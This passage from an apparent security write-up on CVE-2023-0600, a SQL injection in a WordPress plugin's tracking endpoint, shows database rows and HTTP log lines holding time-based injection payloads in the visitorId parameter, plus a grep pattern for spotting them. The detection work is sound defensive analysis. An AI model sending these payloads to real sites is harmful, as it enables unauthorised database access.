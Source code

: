 | 119 | 0003 - Give', sleep( |
| 120 | 0004 - You', sleep(1 |
| 121 | 0005 - Up', sleep(1) |
| 122 | 0006 - Never', sleep |
| 123 | 0007 - Gonna', sleep |
| 124 | 0008 - Let', sleep(1 |
| 125 | 0009 - You', sleep(1 |
| 126 | 0010 - Down', sleep( |
| 127 | 0011 - Never', sleep |
| 128 | 0012 - Gonna', sleep |
| 129 | 0013 - Run', sleep(1 |
| 130 | 0014 - Around', slee |
| 131 | 0015 - And', sleep(1 |
| 132 | 0016 - Desert', slee |
| 133 | 0017 - You', sleep(1 |
|  11 | 100',sleep(10),0,0,0 |
|   2 | 1000',sleep(10),0,0, |
|   3 | 1001',sleep(10),0,0, |
|   4 | 1002',sleep(10),0,0, |
|   7 | 5164803',sleep(3),0, |
|   5 | 5603571',sleep(10),0 |
|   6 | 8020869',sleep(2),0, |
+-----+----------------------+
24 rows in set (0.001 sec)
</code></pre>

Here's a quick Python script so you can troll yourself. [But why?](/assets/troll.py) Well because a quick script helps verify findings and question assumptions. Code as you go. 

More likely however you'll be looking for IoCs in the HTTP logs and not directly in the database, so instead we'd grep with the same pattern on the logs.

ie:
<pre><code>
docker logs cve-2023-0600-wordpress-1|grep -i visitorid|grep -iEv "visitorid\=[a-f0-9]{16}\&"
172.19.0.1 - - [10/Jul/2023:13:47:39 +0000] "GET /?wmcAction=wmcTrack&siteId=34&url=test&uid=01&pid=02&visitorId=0013%20-%20Run%27,%20%20%20%20%20%20%20%20%20%20%20sleep(1),0,0,0,0,0);--+- HTTP/1.1" 200 267 "-" "python-requests/2.31.0"
172.19.0.1 - - [10/Jul/2023:13:47:41 +0000] "GET /?wmcAction=wmcTrack&siteId=34&url=test&uid=01&pid=02&visitorId=0014%20-%20Around%27,%20%20%20%20%20%20%20%20%20%20%20sleep(1),0,0,0,0,0);--+- HTTP/1.1" 200 270 "-" "python-requests/2.31.0"
172.19.0.1 - - [10/Jul/2023:13:47:42 +0000] "GET /?wmcAction=wmcTrack&siteId=34&url=test&uid=01&pid=02&visitorId=0015%20-%20And%27,%20%20%20%20%20%20%20%20%20%20%20sleep(1),0,0,0,0,0);--+- HTTP/1.1" 200 267 "-" "python-requests/2.31.0"
172.19.0.1 - - [10/Jul/2023:13:47:44 +0000] "GET /?wmcAction=wmcTrack&siteId=34&url=test&uid=01&pid=02&visitorId=0016%20-%20Desert%27,%20%20%20%20%20%20%20%20%20%20%20sleep(1),0,0,0,0,0);--+- HTTP/1.1" 200 270 "-" "python-requests/2.31.0"